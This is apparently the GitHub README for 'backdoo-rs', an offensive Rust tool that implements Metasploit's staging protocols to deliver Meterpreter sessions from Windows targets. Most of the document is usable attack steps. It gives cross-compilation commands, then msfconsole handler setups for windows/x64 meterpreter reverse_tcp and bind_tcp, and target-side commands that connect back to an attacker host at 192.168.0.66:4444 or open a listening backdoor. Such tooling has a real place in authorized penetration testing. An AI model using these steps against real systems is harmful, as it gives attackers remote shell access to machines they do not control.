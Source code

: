 # backdoo-rs
[![](https://img.shields.io/github/stars/0xdea/backdoo-rs.svg?style=flat&color=yellow)](https://github.com/0xdea/backdoo-rs)
[![](https://img.shields.io/github/forks/0xdea/backdoo-rs.svg?style=flat&color=green)](https://github.com/0xdea/backdoo-rs)
[![](https://img.shields.io/github/watchers/0xdea/backdoo-rs.svg?style=flat&color=red)](https://github.com/0xdea/backdoo-rs)
[![](https://img.shields.io/badge/twitter-%400xdea-blue.svg)](https://twitter.com/0xdea)
[![](https://img.shields.io/badge/mastodon-%40raptor-purple.svg)](https://infosec.exchange/@raptor)

> "Launch the Polaris  
> The end doesn't scare us  
> When will this cease?  
> The warheads will all rust in peace"
> 
> -- Megadeth, Rust in Peace... Polaris (1990)

Minimalistic Rust implementation of the main staging protocols used by the Metasploit Framework.
Start an `exploit/multi/handler` instance on the attack box configured to handle one of the supported
payloads, run `backdoo-rs.exe` on the target Windows system, and enjoy your session!

Blog post:  
https://security.humanativaspa.it/learning-rust-for-fun-and-backdoo-rs  

See also:  
https://github.com/0xdea/tactical-exploitation/blob/master/letmein.py  
https://github.com/0xdea/tactical-exploitation/blob/master/letmein.ps1  
https://github.com/0xdea/tactical-exploitation/blob/master/letme.go

## Cross-compiling
```
[macOS example]
$ brew install mingw-w64
$ rustup target add x86_64-pc-windows-gnu
$ cargo build --release --target x86_64-pc-windows-gnu
```

## Usage
```
C:\> backdoo-rs.exe [:port | host:port]
```

## Examples
Reverse shell:
```
[on the attack box]
$ msfconsole
msf > use exploit/multi/handler
msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf > set LHOST 192.168.0.66
msf > exploit

[on the target box]
C:\> backdoo-rs.exe 192.168.0.66:4444
```
 
Bind shell:
```
[on the target box]
C:\> backdoo-rs.exe :4444

[on the attack box]
$ msfconsole
msf > use exploit/multi/handler
msf > set PAYLOAD windows/x64/meterpreter/bind_tcp
msf > set RHOST 192.168.0.20
msf > exploit
```

## Supported payloads
* windows/x64/meterpreter/reverse_tcp
* windows/x64/meterpreter/bind_tcp

## Tested on
* Microsoft Windows 11
